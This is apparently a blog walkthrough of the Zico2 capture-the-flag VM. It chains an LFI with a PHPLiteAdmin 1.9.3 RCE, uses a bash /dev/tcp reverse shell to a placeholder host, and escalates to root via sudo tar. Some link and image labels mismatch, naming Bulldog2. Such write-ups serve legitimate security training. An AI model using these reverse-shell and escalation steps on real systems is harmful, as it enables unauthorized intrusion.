 ```yaml
---
layout: post
title: Zico2 Walkthrough
published: true
---
```

Here we go. Walkthrough for [Zico2]([Vulnhub](https://www.vulnhub.com/entry/bulldog-2,246/)) is happening in 3....2....1.


 
      ****Spoiler Alert****          ****Spoiler Alert****




For me this was a sleeper of a CTF. I had the box right up to a low privilege shell in a matter of minutes, but popping a shell and escalating from there took much longer than I anticipated. It was a very informative and fun VM. Let's get to crack'n!

Initial Nmap shows HTTP, SSH, & RPC:

![Bulldog2 NmapOutput]({{ site.url }}/images/Zico2/nmap.JPG)

Let's see what's showing up on HTTP:

![Bulldog2 Base]({{ site.url }}/images/Zico2/base_page.JPG)

Zico's Shop? Looks ? Questionable...  
So looking at the source here shows us the following:  
![Bulldog2 Source]({{ site.url }}/images/Zico2/basepage_source_lfi.JPG)  

Let's see if view.php is susceptible to a Local File Inclusion (LFI) vulnerability here:  
![Bulldog2 LFI]({{ site.url }}/images/Zico2/lfi.JPG)  

Bingo! Although this appeared to be just one vulnerability that had to be chained to another to exploit this system. Let's ennumerate a little more using Nikto & Directory Buster:  
![Bulldog2 Nikto]({{ site.url }}/images/Zico2/nikto.JPG)
![Bulldog2 Dirb]({{ site.url }}/images/Zico2/dirb.JPG)  

Ok, dirb gave us quite a bit here to take a look at.  

If we browse to the /dbadmin directory we're hit with directory browsing with a single test_db.php file, and going to that file we see a login for a PHPLiteAdmin v1.9.3 instance.  
![Bulldog2 PHPLiteAdmin]({{ site.url }}/images/Zico2/phpliteadmin.JPG)   
A quick Google shows us that the default password for this installation is "admin". In this particular instance it is not changed after installation.  
Once logged in I was able to find two hashes for a "root" and "zico" account. They cracked fairly easily via Hashcat. Unfortunately I was not able to find any uses for these and it looks like these were red herrings <*)))><  

Not seeing anything obvious here let's search Exploit-DB:
![Bulldog2 Sploit]({{ site.url }}/images/Zico2/sploit.JPG)  

That's more like it, matching our version at 1.9.3, we see an RCE right up our alley.  

The RCE is pretty straight-forward. Creating a database with the .php extension in this version of PHPLiteAdmin, will not change the extension. So if we create one of these databases, create a table with PHP code, and use our previously found LFI to trigger the database file, the PHP code is interpreted. Let's see if we can actually make this work with a simple PHPInfo statement:  

![Bulldog2 Sploit_Test]({{ site.url }}/images/Zico2/exploit_test.JPG)  

Going from a simple PHPInfo command to uploading a shell took a bit longer to figure out syntax-wise:  

![Bulldog2 Shell_Up]({{ site.url }}/images/Zico2/shell_upload.JPG)  

This is a simple Bash script with the following quick shell syntax:  
	bash -i >& /dev/tcp/x.x.x.x/PORT 0>&1  
Triggering the reverse shell in the same way gives us low privilege access to the www-data account. After the shell was popped, I upgraded to PTY via:  
	python -c 'import pty; pty.spawn("/bin/bash")'
Poking around via the usual checks didn't turn up much. We have read access to many files in /home/zico though. I wonder if there are any passwords I can use here for additional escalations?  

![Bulldog2 WP]({{ site.url }}/images/Zico2/wp-config.JPG)  

Interesting. Zico chose his user account for the WordPress installation. Lets dump our current shell and SSH into his account to check sudo privileges:

![Bulldog2 Sudo]({{ site.url }}/images/Zico2/zico_sudo.JPG)  

Cool. Tar & Zip can be run as root with no password checks. I'm pretty sure this is the escalation path at this point, but how can we escalate with just these?  

I wasn't sure which one to focus on and so decided to check the .bash_history. There was evidence of Zico running _sudo -u root /bin/tar --usage_ so that's where we need to look!  

Checking the usage switch, I saw the _--to-command_ switch. This switch will take the contents of a tar'd file and run the specified commands against each line of the file. Googling a few examples I created another reverse shell Bash script similar to the one from earlier, tar'd the file, setup my NetCat listener on my attacker machine and ran the following:  

![Bulldog2 Trigger_Root]({{ site.url }}/images/Zico2/tar-command.JPG)  
![Bulldog2 Root_Shell]({{ site.url }}/images/Zico2/root_shell.JPG)  

Boom! Let's grab our flag:  

![Bulldog2 Flag]({{ site.url }}/images/Zico2/flag.JPG)

It's Adventure Time!! | (• ◡•)| (❍ᴥ❍ʋ)  





















